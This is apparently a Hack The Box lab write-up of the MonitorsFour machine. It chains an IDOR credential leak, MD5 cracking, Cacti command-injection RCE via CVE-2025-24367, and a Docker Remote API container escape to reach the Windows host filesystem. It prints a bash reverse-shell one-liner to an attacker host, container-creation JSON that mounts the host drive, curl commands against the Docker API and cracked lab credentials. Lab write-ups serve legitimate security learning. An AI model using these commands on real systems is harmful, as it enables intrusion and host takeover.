### Attack Path Summary

IDOR → Credential Disclosure → Cacti RCE → Container Access → Docker API Abuse → Host Filesystem Mount → Administrator Flag

### 1.Reconnaissance

Initial reconnaissance on the target 10.10.11.98

```bash
nmap -sCV -T4 -A <Target_IP> -o filename
```



Port 80/tcp -- http service(nginx server)
5985/tcp -- WinRM (Windows Remote Management)


There is nothing fishy on the website.


### 2.Enumeration

## Direcorty enumeration

I wanted to see if there are any useful endpoints.

```bash
ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://monitorsfour.htb/FUZZ -ac
```


We found user endpoint.
Let's check it



So according to the error message, 'token' parameter is missing.
So, I just tried using token=0 in the url and it worked. 
This is an IDOR (Insecure Direct Object Reference) vulnerability.. It is a critical vulnerabilty , which will reveal sensitive information.



The backend failed to validate token ownership or enforce authorization checks, allowing arbitrary token values (including 0) to return sensitive user data.

Passwords are hashed using MD5.
Since the passwords were hashed using unsalted MD5, they were vulnerable to fast dictionary-based cracking using public hash databases.
We can crack them using crackstation.net.



Now we have both username and password.

I tried to login into monitorsfour.htb but it didn't work. 
Since there is another http service on port 5985, I tried Host enumeration

## Host Enumeration

```bash
ffuf -u http://monitorsfour.htb -H "Host: FUZZ.monitorsfour.htb" -w /usr/share/dirb/wordlists/big.txt -ac
```


Add it to /etc/hosts file (cacti.monitorsfour.htb).



We are now on login page. Let's try to login with cedentials we got before.
Username: admin
Password: wonderful1

However this did not succeed, indicating the username doesnot match.
Using the additional profile information exposed by the API, specifically the administrator's name Marcus Higgins and email address, I tested a small set of plausible username variations.

After a few attempts, authentication was successful using the following credentials: 
Username: marcus
Password: wonderful1

### 3.Exploitation

## Vulnerability Identification

We can see the cacti version being displayed in both login page and dashboard. This narrowed the scope for vulnerability search.



A review of known issues affecting this version revealed CVE-2025-24367, a critical vulnerability impacting Cacti versions ≤ 1.2.28. 

This vulnerability allows authenticated users to achieve remote code execution through command injection in the Graph Template functionality due to improper sanitization of user-supplied input passed to rrdtool.

## Exploit Preparation

with a confirmed vulnerable cacti version and poc available, I prepared the exploit. I began by cloning the github poc repository to my attacking machine.

```bash 
git clone https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC
cd CVE-2025-24367-Cacti-PoC
```
This repository contains a ready to use exploit targeting CVE-2025-24367.


Before using the exploit start a listner on port 4444
## Remote Code Execution

Setup a listner on port 4444 to catch an incoming reverse shell.

```bash
nc -lnvp 4444
```
Now execute the public proof-of-concept exploit from the cloned repository. You can check the syntax for it the repository.

```bash
sudo python3 exploit.py -url http://cacti.monitorsfour.htb -u marcus -p wonderful1 -i 10.10.14.145 -l 4444
```


We recieved a reverse shell on port 4444.



The shell landed as the www-data user inside the Cacti web directory, providing an initial foothold on the machine.

### Obtaining User flag

After gaining shell on the target, I first confirmed the context of my access. Running basic identification commands showed that the shell was operating as the lowest privileged www-data user.
```bash
whoami
id
```
I then enumereated the /home directory to identify valid local userson the system. This revealed a home directory for  user 'marcus', which aligned the credentials previously used to access the Cacti application.

```bash
la -la /home
```
Futher navigating into the /home/marcus directory revealed user.txt file. This file is world-readable.
Reading the contents of the file user.txt successfully revealed the user flag.


### Privilege Escalation

Observing the system hostname, it follows a hexadecimal format similar to a Docker container ID, which immediately suggests that the shell is likely running inside a containerized environment.

Additionally, the sudo command is unavailable, further indicating a restricted execution context rather than a full virtual machine.

To validate this assumption, I examined the network configuration. The assigned IP address falls within the 172.18.0.0/16 range, and the default gateway is 172.18.0.1, which is characteristic of a Docker bridge network.

These indicators confirm that the current shell is operating inside a Docker container, marking this as the starting point for the Sexton privilege escalation phase, where the objective is to identify potential container escape vectors or misconfigurations that could lead to host-level access.



Since the shell was running inside a Docker container, I proceeded to inspect /etc/reslov.conf. In containerised environment, this is file is automatically generated by docker engine and defines the DNS resolver used by the container. Inspecting this file is a standard enumeraton step, as it often reveals the internal network configuration and may disclose the host-side IP address used by Docker. This information can be leveraged to guide internal network enumeration and identify potential container escape paths.

The resolver configuration revealed the Docker host IP (192.168.65.7), which became a natural target for further service enumeration.



Since unauthenticated Docker APIs have historically been exposed on TCP port 2375, I tested the host IP for an accessible Docker Engine endpoint.

To check whether the Docker Engine Remote API was exposed on the host, I issued the following request from within the container:

```bash
curl http://192.168.65.7:2375/version
```


After confirming that the Docker Engine API is accessible without authentication, I began by enumerating the existing Docker images on the host.

```bash
curl http://192.168.65.7:2375/images/json | grep "RepoTags:\[[^]]*\]"
```
To simplify analysis and identify usable images, I filtered the Docker API output to extract only image IDs and repository tags.



This revelead several locally available docker images.

Docker runs containers as root by default. When the Docker daemon is exposed without authentication:
>Any user can create containers
>Containers can mount arbitrary host paths
>Containers can run in privileged mode
>Host kernel protections are bypassed
As a result, controlling the Docker API is equivalent to root access on the host.

## Maliclious Container Preparation

I selected an already existing image (docker_setup-nginx-php:latest) to avoid pulling new images, which could fail in restricted environments or generate detectable outbound traffic.

In WSL2 environments, the Windows host filesystem is exposed under /mnt/host/c, making it possible to directly access the Windows C drive from Linux containers.

Create the json file on the attacker machine.
```bash
{
  "Image": "docker_setup-nginx-php:latest",
  "Cmd": [
    "/bin/bash",
    "-c",
    "bash -i >& /dev/tcp/tun-ip/port 0>&1"
  ],
  "HostConfig": {
    "Binds": [
      "/mnt/host/c:/host_root"
    ]
  }
}
```
This is an existing image,eliminating need for external image pulls and reducing detection risk.
```bash
python3 -m http.server 8000
```
Now run a http server on port 8000 and upload the json file on to victim machine.
```bash
curl http://tun-ip:8000/container.json -o container.json
```

## Creating the container via Docker API

```bash
curl -H "Content-Type: application/json" -d @container.json http://192.168.65.7:2375/containers/create?name=pwned
```

Start a listener on port 9999.
```bash
nc -lnvp 9999
```
Now start the container and we will recieve call back on it.

``bash
curl -X POST http://192.168.65.7:2375/containers/pwned/start
```
By abusing the Docker Remote API, I obtained arbitrary filesystem access to the Windows host via a bind mount.

Since full access to the Windows host filesystem was obtained, the next step was to locate the proof file. In Hack The Box Windows environments, the final flag is conventionally stored on the Desktop of the highest-privileged user. As the Administrator account represents the highest local privilege level, its Desktop directory was checked, leading to the discovery of the flag

```bash
ls /host_root/Users/Administrator/Desktop/
cat /host_root/Users/Administrator/Desktop/root.txt
```


### Root Cause Summary

- Insecure Direct Object Reference exposing administrator credentials
- Outdated Cacti version vulnerable to authenticated RCE
- Application running inside a Docker container
- Unauthenticated Docker Remote API exposed on the host
